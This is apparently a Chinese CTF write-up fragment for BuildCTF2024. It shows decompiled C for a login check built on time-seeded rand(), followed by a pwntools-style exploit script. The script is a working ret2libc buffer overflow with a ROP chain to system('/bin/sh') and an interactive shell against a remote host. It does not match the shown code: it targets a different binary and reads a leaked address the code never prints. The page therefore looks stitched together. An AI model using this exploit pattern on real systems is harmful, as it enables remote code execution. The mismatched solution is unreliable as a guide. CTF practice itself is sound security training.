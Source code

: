 ```cpp
  seed = time(0LL);
  srand(seed);
  alarm(0x3Cu);
  puts("Welcome to BuildCTF2024 !\n");
  for ( i = 0; i <= 10; ++i )
    v4[i] = rand() % 25 + 32;
  puts("please login >>>>");
  read(0, buf, 0xFFuLL);
  for ( j = 0; j <= 10; ++j )
  {
    if ( buf[j] != v4[j] )
    {
      printf("Sorry, %sis not correct password.\n", buf);
      puts("Login failed!");
      exit(0);
    }
  }
  return 1LL;
}
```

简单的随机数

exp如下:

```python
from Pwnmodules import *  # pwnttols封装
context(log_level='debug', arch='amd64', os='linux')  # 设置pwntools的上下文环境  
  
target = Target("27.25.151.80", 34094)  # 设置远程目标  
  
elf = ELF("/root/Pwn/no_shell/./no_shell")  # 加载本地易受攻击的二进制文件  
libc = ELF("/root/Pwn/no_shell/libc.so.6")  # 加载本地libc库文件  
  
target.ru("this is gift:")  # 发送数据到远程服务并等待特定响应  
printf_addr = int(target.rl()[:-1], 16)  # 从远程服务的响应中读取printf函数的地址  
  
print(hex(printf_addr))  # 打印读取到的printf函数地址  
  
libc_base = printf_addr - libc.sym['printf']  # 计算libc库的基地址  
system_addr = libc_base + libc.sym["system"]  # 计算system函数的地址  
pop_rdi = 0x000000000002a3e5 + libc_base  # 计算pop rdi; ret gadget的地址  
str_bin_sh_addr = libc_base + next(libc.search("/bin/sh\x00"))  # 计算"/bin/sh"字符串的地址  
  
# 下面的execve_addr和gadget变量被注释掉了，因为它们可能不是必需的，或者需要针对特定的libc版本进行调整  
# execve_addr = [0xebc81, 0xebc85, 0xebc88, 0xebce2, 0xebd38, 0xebd3f, 0xebd43]  
# gadget = execve_addr[0] + libc_base  
  
# 发送一些无关紧要的数据，可能是为了触发漏洞或保持连接  
target.sl(b'eeeee')  
  
# 构造并发送攻击载荷  
# 注意：这里的0x40101a可能是一个栈上的返回地址，但它需要根据实际的二进制文件进行分析来确定  
# 如果这个地址不正确，攻击可能会失败  
payload = b'e' * 0x88 + p64(0x40101a) + p64(pop_rdi) + p64(str_bin_sh_addr) + p64(system_addr)  
target.sl(payload)  
  
# 尝试获取交互式shell  
target.inter()
```
